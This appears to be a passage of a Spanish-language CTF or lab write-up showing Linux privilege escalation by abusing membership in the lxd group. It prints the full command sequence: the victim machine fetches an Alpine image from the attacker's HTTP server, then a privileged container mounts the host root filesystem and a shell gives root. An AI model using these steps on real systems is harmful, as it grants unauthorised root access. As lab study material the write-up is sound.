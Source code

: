 La enumeración de privilegios reveló la pertenencia al grupo "lxd."

```plaintext
id
# Resultado: uid=1000(jackshephard) gid=1000(jackshephard) groups=1000(jackshephard),111(lxd)
```

## Escalada de Privilegios Utilizando el Grupo "lxd"

Siguiendo los pasos de [abusando-grupo-lxd-lxc](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-lxd-lxc), se procedió a crear una imagen Alpine en la máquina atacante y transferirla a la máquina víctima.

```bash
#Maquina atacante:
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
sudo bash build-alpine
python3 -m http.server 8000
```

La imagen Alpine fue descargada en la máquina víctima y se procedió a realizar la escalada de privilegios.

```bash
#Maquina victima:
#Obtenemos la imagen
wget http://192.168.200.5:8000/alpine-v3.19-x86_64-20240303_1743.tar.gz
#Importamos
lxc image import alpine-v3.19-x86_64-20240303_1743.tar.gz --alias
#Aseguramos su correcta importacion
lxc image list
#Iniciamos y damos privilegios de root
lxc init alpine privesc -c security.privileged=true 
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
#Iniciamos y ejecutamos
lxc start privesc
lxc exec privesc sh
cd /mnt/root
whoami
# Resultado: root
```

Ahora, el contenido de la máquina víctima se encuentra en un contenedor con privilegios de root. :D

## Reconocimientos

Haber podido realizar esta maquina no hubiese sido posible sin los siguientes creadores. Si quieren una explicacion mas detallada vean sus videos:

- [Jackie0x17 - Video Tutorial](https://www.youtube.com/watch?v=ikrLt38_MY8)
- [El pinguino de mario - Video Tutorial](https://www.youtube.com/watch?v=Eyq1K2UHy7A)
